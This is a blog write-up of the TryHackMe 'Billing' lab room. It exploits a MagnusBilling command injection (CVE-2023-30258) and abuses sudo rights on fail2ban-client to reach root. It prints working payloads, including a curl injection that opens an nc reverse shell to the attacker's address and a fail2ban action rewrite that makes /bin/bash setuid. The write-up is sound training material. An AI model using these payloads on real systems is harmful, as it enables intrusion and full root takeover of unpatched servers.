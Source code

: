 ```yaml
---
title: "TryHackMe: Billing"
author: Kasem Shibli
categories: [TryHackMe]
tags: [web, command injection, sudo, fail2ban]
render_with_liquid: false
media_subpath: /blog/images/tryhackme_billing/
image:
  path: room_image.webp
---
```


**Billing** was a straightforward room where we exploited a command injection vulnerability in the **MagnusBilling** web application to gain an initial foothold. Afterwards, using our sudo privileges, which allowed us to interact with and configure the **fail2ban-server**, we successfully escalated to the **root** user and completed the room.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/room/billing){: .center }

## Initial Enumeration

### Nmap Scan

We start with an **`nmap`** scan:

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.160.86
Not shown: 65528 closed tcp ports (reset)
PORT      STATE    SERVICE  VERSION
22/tcp    open     ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp    open     http     Apache httpd 2.4.56 ((Debian))
| http-title:             MagnusBilling
|_Requested resource was http://10.10.160.86/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
| http-robots.txt: 1 disallowed entry
|_/mbilling/
3306/tcp  open     mysql    MariaDB (unauthorized)
5038/tcp  open     asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are four open ports:

- **22** (`SSH`)
- **80** (`HTTP`)
- **3306** (`MySQL`)
- **5038** (`Asterisk`)

### Web 80

Visiting `http://10.10.160.86/` redirects us to `/mbilling/`, where we find the **MagnusBilling** application running.

![Web 80 Index](web_80_index.webp){: width="1200" height="600"}

By checking some common files for the application, we can identify the **MagnusBilling** version as `7.x.x` from the `README.md` file.

![Web 80 Mbilling Readme](web_80_mbilling_readme.webp){: width="1200" height="600"}

## Shell as asterisk

Searching for vulnerabilities in **MagnusBilling 7**, we can discover it is vulnerable to **`CVE-2023-30258`**, an unauthenticated command injection vulnerability. A detailed advisory for this vulnerability with a proof-of-concept (PoC) is available [here](https://eldstal.se/advisories/230327-magnusbilling.html).

![Magnusbilling Command Injection Poc](magnusbilling_command_injection_poc.webp){: width="900" height="600"}

Reviewing the [vulnerable code](https://github.com/magnussolution/magnusbilling7/blob/f6cd038161349895ff6f186405b9a89f564c9448/lib/icepay/icepay.php#L753) referenced in the advisory shows that if the `democ` GET parameter is provided (and is longer than 5 characters) in a request to the `/lib/icepay/icepay.php` endpoint, a command is built as:

```php
"touch " . $_GET['democ'] . '.txt'
```

This string is then passed to the `exec()` function, making the code vulnerable to command injection.

![Magnusbilling Vulnerable Code](magnusbilling_vulnerable_code.webp){: width="700" height="300"}

Testing the PoC from the advisory with `sleep` commands confirms the vulnerability, as the server consistently takes longer than the specified duration in our `sleep` commands to respond, indicating that they are being executed.

```console
$ time curl -s 'http://10.10.160.86/mbilling/lib/icepay/icepay.php?democ=;sleep+2;'

real    2.19s

$ time curl -s 'http://10.10.160.86/mbilling/lib/icepay/icepay.php?democ=;sleep+5;'

real    5.27s
```

Using this vulnerability, we can send a command injection payload with a reverse shell command via **`curl`** to obtain a shell:

```console
$ curl -s 'http://10.10.160.86/mbilling/lib/icepay/icepay.php' --get --data-urlencode 'democ=;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.64.79 443 >/tmp/f;'
```
{: .wrap }

Checking our listener, we see a shell as the **asterisk** user and can read the user flag at `/home/magnus/user.txt`:

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.64.79] from (UNKNOWN) [10.10.160.86] 41006
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ export TERM=xterm
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

asterisk@Billing:/var/www/html/mbilling/lib/icepay$ id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ wc -c /home/magnus/user.txt
38 /home/magnus/user.txt
```

## Shell as root

Checking the **sudo** privileges for the **asterisk** user, we find that the user is allowed to run the `fail2ban-client` command as **root** without a password:

```console
asterisk@Billing:/$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

**fail2ban-client** is a command-line interface that allows us to interact with, configure, and control the **fail2ban-server**. To give a brief explanation, **fail2ban** is a security tool that monitors log files for suspicious activities (such as repeated failed login attempts) and bans the offending IP addresses by updating firewall rules.

Checking the running processes, **fail2ban-server** is running as **root**, as expected.

```console
asterisk@Billing:/$ ps -aux | grep fail
root         539  0.2  1.4 1167416 27992 ?       Ssl  13:10   0:08 /usr/bin/python3 /usr/bin/fail2ban-server -xf start
```

Checking the status of the **fail2ban-server**, we see 8 active jails.

```console
asterisk@Billing:/$ sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
```
{: .wrap }

`Jails` are basically configurations that define which logs to monitor, the patterns to look for, and the actions to take when a pattern is matched.

Checking the `/etc/fail2ban/jail.local` file, we can see an example of a `jail`:

```console
[asterisk-iptables]
enabled  = true
filter   = asterisk
action   = iptables-allports[name=ASTERISK, port=all, protocol=all]
logpath  = /var/log/asterisk/messages
maxretry = 5
bantime = 600
```

From the configuration, among other things, we see that the `asterisk-iptables` jail monitors the `/var/log/asterisk/messages` log file and checks for patterns defined in the `asterisk` filter (`/etc/fail2ban/filter.d/asterisk.conf`). When those patterns are matched, it performs the appropriate action defined in the `iptables-allports` action (`/etc/fail2ban/action.d/iptables-allports.conf`).

To use **fail2ban** to execute commands as **root**, we can modify one of the actions defined for the jail, such as the action to perform (command to execute) when banning an IP. 

First, we retrieve the currently set actions for one of the active jails.

```console
asterisk@Billing:/$ sudo /usr/bin/fail2ban-client get asterisk-iptables actions
The jail asterisk-iptables has the following actions:
iptables-allports-ASTERISK
```

Next, we modify the command for the `actionban` in the `iptables-allports-ASTERISK` action, which is executed when banning an IP for the **asterisk-iptables** jail. We set it to run our command that sets the **setuid** bit on **/bin/bash** instead, as follows:

```console
asterisk@Billing:/$ sudo /usr/bin/fail2ban-client get asterisk-iptables action iptables-allports-ASTERISK actionban
<iptables> -I f2b-ASTERISK 1 -s <ip> -j <blocktype>

asterisk@Billing:/$ sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
chmod +s /bin/bash

asterisk@Billing:/$ sudo /usr/bin/fail2ban-client get asterisk-iptables action iptables-allports-ASTERISK actionban
chmod +s /bin/bash
```
{: .wrap }

Now, we can manually ban an IP address for the **asterisk-iptables** jail, which will execute the command for `actionban` defined in the `iptables-allports-ASTERISK` action.

```console
asterisk@Billing:/$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash

asterisk@Billing:/$ sudo /usr/bin/fail2ban-client set asterisk-iptables banip 1.2.3.4
1

asterisk@Billing:/$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Finally, with the **setuid** bit set on the **/bin/bash** binary, we can use it to obtain a shell and read the root flag at `/root/root.txt` to complete the room.

```console
asterisk@Billing:/$ /bin/bash -p
bash-5.1# python3 -c 'import os;import pty;os.setuid(0);os.setgid(0);pty.spawn("/bin/bash");'
root@Billing:/# id
uid=0(root) gid=0(root) groups=0(root),1001(asterisk)
root@Billing:/# wc -c /root/root.txt
38 /root/root.txt
```

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>